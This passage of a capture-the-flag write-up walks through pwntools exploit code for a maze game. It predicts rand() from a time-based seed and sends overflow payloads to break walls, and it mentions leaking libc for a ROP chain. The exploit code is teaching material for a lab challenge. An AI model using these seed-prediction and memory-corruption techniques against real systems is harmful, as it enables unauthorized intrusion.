 > libc is required for the 2nd ROP chain, and is not included (not needed for shellcode).  To find libc I had to leak libc first and then use an online libc database.  Fortunately there was only one match for the libc leak: [`https://libc.blukat.me/d/libc6_2.27-3ubuntu1.4_amd64.so`]()

```python
    # pass 1
    from ctypes import *
    glibc = cdll.LoadLibrary('libc.so.6')
    glibc.srand(glibc.time(None))

    log.info('pass 1')
    t = time.time()

    # get started
    p.sendlineafter(b'?\n',b'jump up and down')

    # find myself (array base 1)
    p.sendlineafter(b'): ',b'm')
    x = y = 0

    for i in range(81):
        _ = p.recvline().strip()
        if b'|' in _:
            y += 1
        if b'*' in _:
            x = (2 + _.find(b'*')) // 4
            break

    # check we have a match for the seed
    dy = glibc.rand() % 0x28
    dx = glibc.rand() % 0x28
    log.info('rand {dx},{dy}'.format(dx = dx + 1, dy = dy + 1))
    if x != dx + 1 or y != dy + 1:
        log.critical('rand mismatch')
        p.close()
        continue
```

In this first section of code we get the time from libc, start our own timer for time checks (just information to make sure we're under 60 seconds), find ourself in the maze, then compute using the same logic as in the code where we should be, finally we compare where we should be with where we are.  If there's a match, then we have the correct rand seed.

```python
    gy = glibc.rand() % 0x28
    gx = glibc.rand() % 0x28
    log.info('grue at {gx},{gy}'.format(gx = gx + 1, gy = gy + 1))

    # lazy, not covering "edge" cases
    if gx == 39 or gy == 39:
        log.critical('grue on edge')
        p.close()
        continue

    # kick down the walls and get to the lower right avoiding grue
    if gx == dx:
        for i in range(40 - x):
            p.sendlineafter(b'): ', b'x')
            p.sendafter(b'?\n', 0x20 * b'\xff')
            p.sendlineafter(b'): ', b'd')

    for j in range(40 - y):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b's')
```